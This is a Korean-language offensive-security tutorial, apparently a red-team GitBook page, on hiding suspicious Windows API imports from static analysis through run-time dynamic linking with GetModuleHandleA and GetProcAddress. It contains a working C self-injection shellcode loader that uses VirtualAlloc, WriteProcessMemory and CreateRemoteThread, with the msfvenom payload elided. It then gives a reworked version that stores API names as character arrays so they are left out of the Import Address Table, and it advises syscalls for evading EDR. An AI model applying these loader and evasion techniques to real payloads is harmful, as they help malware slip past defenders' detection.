 # 런타임 다이나믹 링킹 (Run-time Dynamic Linking)

PE 파일 구조에서 Import Address Table (IAT)는 해당 파일이 사용하는 DLL의 exported 함수 포인터들을 기록해놓은 부분이다. IAT는 PE 파일 실행시 윈도우 로더 (Windows Loader) 가 PE파일을 메모리에 로드하며 해당 파일이 사용하는 DLL과 exported 함수들을 같이 맵핑 하기 위해 사용된다.

페이로드 제작시 대부분의 윈도우 API들은 직접/간접 시스템 콜을 사용하기 때문에 IAT에 수상한 윈도우 API 함수가 기록될 일은 없다. 하지만 항상 직접/간접 시스템 콜을 사용할 수 있는 것도 아니고, 가끔씩 순정 윈도우 API를 페이로드에 사용해야만 할 때가 있다. 이때 IAT에 수상한 윈도우 API(`WriteProcessMemory`, `CreateRemoteThreadEx` , 등)들이 기록되어 있다면 정적 분석에 걸리게 된다.

Run-time Dynamic Linking (런타임 다이나믹 링킹) 은 런타임 중 동적으로 DLL에서 exported 함수를 로드해 사용하는 기법이다. 이 기법을 사용하면 IAT에 수상한 윈도우 API들이 기록되지 않기 때문에 정적 분석을 통과할 확률이 높아진다. 물론 여전히 윈도우 API를 사용하는 것이고, 시스템 콜을 사용하는 것이 아니기 때문에 유저랜드 후킹이나 다른 방어 기법들에 걸리게 된다. 따라서 런타임 다이나믹 링킹은 최소한의 방어 우회 기법이다 정도로만 생각해야한다.

### 코드

런타임 다이나믹 링킹의 코드는 다음과 같은 형태로 이루어져있다.

```
// 윈도우 API 함수 포인터 구조체 생성 
typedef LPVOID(WINAPI* _VirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);

// 필요한 문자열 unsigned char 형태로 저장 
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };
unsigned char sVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c',0x0 };

// 런타임 중 DLL의 모듈 핸들을 구한 뒤 exported 함수의 핸들을 구함. 그 뒤 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환)
_VirtualAlloc pVirtualAlloc = (_VirtualAlloc)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sVirtualAlloc));

... 

// 4. 이제부터 VirtualAlloc 대신 pVirtualAlloc 을 사용 
```

1. 윈도우 API 함수와 동일한 인자 및 반환을 하는 함수 포인터 (`WINAPI*`) 구조체를 생성한다.
2. 그 뒤, 필요한 문자열을 `unsigned char` 형태로 저장한다. 예를 들어 DLL의 이름인 `kernel32.dll / ntdll.dll` 이나 exported 함수 이름인 `VirtualAlloc, WriteProcessMemory, MiniDumpWriteDump` 등이다.
3. `GetModuleHandleA` 와 DLL 이름 문자열을 이용해 모듈의 핸들을 얻는다. 그 뒤, 모듈의 핸들과 exported 함수 이름을 `GetProcAddress` 함수에다 집어넣어 함수 포인터를 얻는다.
4. 이 함수 포인터를 #1 번에서 만들어 놨던 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환) 한다.
5. 이제부터 해당 윈도우 API 함수를 사용하고 싶다면, #4번에서 만든 함수 포인터를 사용하면 된다.

\#3 \~ #4 번에서 런타임 중 `GetModuleHandleA` 와 `GetProcAddress` 함수가 실행되며 함수 포인터를 획득하고, 이를 윈도우 API 함수 포인터 구조체로 캐스팅하게 된다. 즉, 정적인 PE 파일 상태에서의 IAT에는 아무것도 없고, 오로지 파일이 실행돼 메모리에 로드 되고 런타임에 들어갔을 때 사용하고자 하는 윈도우 API를 함수 포인터 형태로 사용할 수 있게 된다.

### 실습

먼저 런타임 다이나믹 링킹이 적용되지 않은 간단한 셀프 인젝션 코드를 살펴본다.

```
#include <iostream>
#include <windows.h>

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" -f c
	unsigned char buf[] = < ... 쉘코드 ... >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}
	
	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

컴파일 후 PEStudio 로 해당 파일을 살펴보면 IAT에 수상한 윈도우 API인 `WriteProcessMemory` 와 `CreateRemoteThread` 가 보인다. "Flag" 도 총 6개로, 수상한 윈도우 API 6개가 IAT에 기록되어 있다는 것을 보여준다.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

이제 런타임 다이나믹 링킹을 적용해보자. `WriteProcessMemory` 와 `CreateRemoteThread` 에 적용한 뒤, 다시 컴파일을 한다.

```
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };

typedef BOOL(WINAPI* _WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
unsigned char sWriteProcessMemory[] = { 'W','r','i','t','e','P','r','o','c','e','s','s','M','e','m','o','r','y',0x0 };
_WriteProcessMemory pWriteProcessMemory = (_WriteProcessMemory)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sWriteProcessMemory));

typedef HANDLE(WINAPI* _CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
unsigned char sCreateRemoteThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0x0 };
_CreateRemoteThread pCreateRemoteThread = (_CreateRemoteThread)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sCreateRemoteThread));

[ ... 나머지 코드 동일 ... ]
```

다시 PEStudio 로 살펴보면, IAT 에서 `WriteProcessMemory` 와 `CreateRemoteThread` 가 더이상 보이지 않는다. "Flag" 도 6개에서 4개로 줄었다.&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

런타임 다이나믹 링킹은 간단한 정적 분석을 우회하기 위한 용도로만 사용되야한다. 중요한 윈도우 API의 경우 직접/간접 시스템 콜을 이용하거나 수동적 맵핑을 이용한 방법을 사용하도록 한다. 별로 중요하지 않지만 자주 사용되고, 직/간접 시스템 콜을 사용할 수 없는 윈도우 API (`Process32Next` 등)의 경우, 런타임 다이나믹 링킹을 적용하면 IAT 목록을 수상하지 않게 만들 수 있다.&#x20;

### References

{% embed url="https://0xrick.github.io/win-internals/pe6" %}

{% embed url="https://vanmieghem.io/blueprint-for-evading-edr-in-2022" %}
